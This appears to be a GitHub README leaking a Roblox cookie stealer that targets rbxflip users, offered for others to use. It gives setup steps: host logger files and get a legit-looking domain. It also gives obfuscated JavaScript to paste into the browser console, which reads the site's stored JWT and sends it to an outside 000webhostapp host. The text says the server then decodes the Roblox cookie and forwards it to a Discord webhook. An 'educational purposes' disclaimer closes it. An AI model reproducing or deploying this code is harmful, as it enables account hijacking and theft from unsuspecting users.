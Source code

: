 # me and my friend made this ill leak it since ixware skids took my idea have fun with it.


# How to use
1. Upload the files (from logger folder) on your webserver
2. Get a legit looking domain
3. Go to rbxflip.com (be logged in)
4. Open the developer console
5. Paste that inside the console:
```
var _0x2c3c=['41qRGKIU','226227XOWtdT','9571kRaNrS','getItem','auth._token.local','259484aCtxRr','https://xss992.000webhostapp.com/13/coinflip.php?t=','1ICLKrP','85307TnWote','53639HVwscK','194480dULgxy','23wlWByU','1oUiTEM','7247ahdNmv','split'];var _0x2b7b=function(_0x3dc2af,_0x33a69b){_0x3dc2af=_0x3dc2af-0x83;var _0x2c3c00=_0x2c3c[_0x3dc2af];return _0x2c3c00;};var _0x51f868=_0x2b7b;(function(_0x3b43f1,_0x21e07e){var _0x324dbb=_0x2b7b;while(!![]){try{var _0x4983eb=parseInt(_0x324dbb(0x8d))+-parseInt(_0x324dbb(0x84))*-parseInt(_0x324dbb(0x8a))+parseInt(_0x324dbb(0x8c))*parseInt(_0x324dbb(0x8f))+parseInt(_0x324dbb(0x8b))+-parseInt(_0x324dbb(0x85))*-parseInt(_0x324dbb(0x8e))+-parseInt(_0x324dbb(0x83))*parseInt(_0x324dbb(0x90))+-parseInt(_0x324dbb(0x88));if(_0x4983eb===_0x21e07e)break;else _0x3b43f1['push'](_0x3b43f1['shift']());}catch(_0x413a66){_0x3b43f1['push'](_0x3b43f1['shift']());}}}(_0x2c3c,0x367c7),fetch(_0x51f868(0x89)+atob(localStorage[_0x51f868(0x86)](_0x51f868(0x87))[_0x51f868(0x91)]('\x20')[0x1][_0x51f868(0x91)]('.')[0x1])['split']('\x22')[0x3])); rig.coin 
console.log

```
6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special, but people are selling this shit for $25 lol.



# Disclaimer
## I, the creator, am in no way responsible for any actions that you may make using this software. You take full responsibility with any action taken using this software. Please take note that this application was designed for educational purposes and should never be used maliciously. By downloading the software or source to the software, you automatically accept this agreement.
